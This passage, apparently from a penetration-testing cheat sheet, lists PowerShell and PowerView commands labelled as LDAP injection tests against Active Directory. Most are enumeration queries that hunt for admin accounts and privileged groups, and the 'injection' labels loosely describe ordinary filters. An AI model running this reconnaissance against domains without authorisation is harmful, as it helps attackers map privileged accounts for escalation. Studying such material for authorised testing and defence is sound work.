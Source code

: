 
**Command Explanations:**
- **`Get-ADObject -LDAPFilter "(&(objectClass=user)(sAMAccountName=*admin*))"`**: Tests AND injection for admin users
- **`Get-ADObject -LDAPFilter "(&(objectClass=user)(|(sAMAccountName=*admin*)(sAMAccountName=*user*)))"`**: Tests nested OR within AND injection
- **`Get-ADObject -LDAPFilter "(&(objectClass=*)(objectClass=user))"`**: Tests redundant AND injection

#### **Blind LDAP Injection Testing**
```powershell
# Blind injection with timing
Get-ADObject -LDAPFilter "(|(cn=a*)(cn=b*))" -Properties cn -ResultSetSize 100
Get-ADObject -LDAPFilter "(|(cn=*)(cn=*))" -Properties cn -ResultSetSize 100
Get-ADObject -LDAPFilter "(|(sAMAccountName=a*)(sAMAccountName=b*))" -Properties sAMAccountName

# Count-based blind injection
Get-ADObject -LDAPFilter "(objectClass=*)" -ResultSetSize 1 | Measure-Object
Get-ADObject -LDAPFilter "(objectClass=user)" -ResultSetSize 1 | Measure-Object
Get-ADObject -LDAPFilter "(objectClass=group)" -ResultSetSize 1 | Measure-Object
```

**Command Explanations:**
- **`Get-ADObject -LDAPFilter "(|(cn=a*)(cn=b*))"`**: Tests blind injection with character-based filtering
- **`Get-ADObject -LDAPFilter "(|(cn=*)(cn=*))"`**: Tests blind injection with wildcard redundancy
- **`Get-ADObject -LDAPFilter "(objectClass=*)" -ResultSetSize 1 | Measure-Object`**: Tests count-based blind injection

### **3. PowerView/SharpView LDAP Injection Commands**

#### **PowerView LDAP Injection Testing**
```powershell
# Basic PowerView injection tests
Get-DomainObject -LDAPFilter "(objectClass=*)" -Properties *
Get-DomainObject -LDAPFilter "(objectClass=user)" -Properties sAMAccountName,userPrincipalName
Get-DomainObject -LDAPFilter "(objectClass=group)" -Properties name,description,member

# OR injection with PowerView
Get-DomainObject -LDAPFilter "(|(objectClass=user)(objectClass=group))" -Properties *
Get-DomainObject -LDAPFilter "(|(objectClass=computer)(objectClass=user))" -Properties *
Get-DomainObject -LDAPFilter "(|(objectClass=*)(objectClass=*))" -Properties *
```

**Command Explanations:**
- **`Get-DomainObject -LDAPFilter "(objectClass=*)"`**: PowerView-based basic LDAP injection test
- **`Get-DomainObject -LDAPFilter "(|(objectClass=user)(objectClass=group))"`**: PowerView OR injection for multiple object types
- **`Get-DomainObject -LDAPFilter "(|(objectClass=*)(objectClass=*))"`**: PowerView redundant OR injection test

#### **Advanced PowerView Injection Payloads**
```powershell
# AND injection with PowerView
Get-DomainObject -LDAPFilter "(&(objectClass=user)(sAMAccountName=*admin*))" -Properties *
Get-DomainObject -LDAPFilter "(&(objectClass=group)(name=*Admin*))" -Properties *
Get-DomainObject -LDAPFilter "(&(objectClass=computer)(operatingSystem=*Windows*))" -Properties *

# Complex nested injection
Get-DomainObject -LDAPFilter "(&(objectClass=user)(|(sAMAccountName=*admin*)(sAMAccountName=*user*)))" -Properties *
Get-DomainObject -LDAPFilter "(|(&(objectClass=user)(admincount=1))(&(objectClass=group)(name=*Admin*)))" -Properties *
Get-DomainObject -LDAPFilter "(&(objectClass=*)(objectClass=user))" -Properties *
```
